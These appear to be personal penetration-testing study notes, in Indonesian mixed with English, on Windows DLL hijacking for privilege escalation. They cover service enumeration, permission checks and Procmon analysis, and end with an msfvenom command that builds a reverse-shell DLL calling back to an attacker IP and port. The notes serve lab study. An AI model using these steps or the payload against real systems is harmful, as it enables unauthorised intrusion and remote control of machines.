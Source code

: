 **Kalo tidak tahu .dll nya mau taro di mana, ikutin dll search order**
1. The directory from which the application loaded (BIASANYA LANGSUNG DI SINI)
2. The system directory
3. The 16-bit system directory
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

> Konsepnya sama aja kyk Service Binary Hijacking, cuma di dll aja.
1) Cari suspicious services
2) Check permission 
3) Kalo gk writable, check processnya (procmon, atau reverse engineer binarynya) 
4) Dia ada manggil dll apa aja > dll mana yang bisa writable atau dihijack 
5) Generate malicious dll.
6) Transfer and hijack.

POWERUP JUGA BISA DETECT.

1. Enumerate services
```cmd
Get-CimInstance -ClassName win32_service | Select-Object Name, State, PathName | Where-Object { $_.PathName -notmatch 'System32' }
```
>> Kyk tadi, cari service yang nondefault dan non system

2. Check permission ke servicesnya
```cmd
icacls C:\Users\steve\Documents\BetaServ.exe
```
>> Kita cuma punya RX. Therefore need to investigate more.
>> The standard procedure in a penetration test would be to copy the service binary to a local machine and analyze it. (REVERSE KYK FELIX)
>> Di lab, harusnya udah ada procmon. C:\tools\Procmon\Procmon64.exe (double click aja)
>> Gw juga udah sediain di /opt. Tinggal transfer. UNLIKELY DIPAKE KRN BUTUH GUI DAN ADMIN

3. Buka Procmon64.exe (BUTUH GUI DAN ADMINISTRATIVE PRIVILEGE)
4. Filter > **Process Name** **Is** **BetaServ.exe (nama service binarynya)** then **Include**
5. Restart servicenya since kita bisa execute.
```cmd
Stop-Service BetaService
Start-Service BetaService
Restart-Service BetaService
or
net stop BetaService
net start BetaService
```
6. Check Procmon lagi. Ada bnyk event yg involves bnyk dll.
7. Cari DLL mana yang bisa dioverwrite, atau dia ada nyari DLL di folder yang kita bisa write gk.
8. Kalo ada, tinggal bikin DLL malicious, overwrite, dan restart servicenya.
9. Create the DLL. Bisa pake msfvenom jg.
```cmd
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.45.168 LPORT=4444 -f dll -o CRYPTBASE.DLL
```
>> NOTE: KRN BUAT DLL, MSFVENOM CUMA SEDIA STAGED PAYLOAD, HARUS TERIMANYA PAKE multi/handler
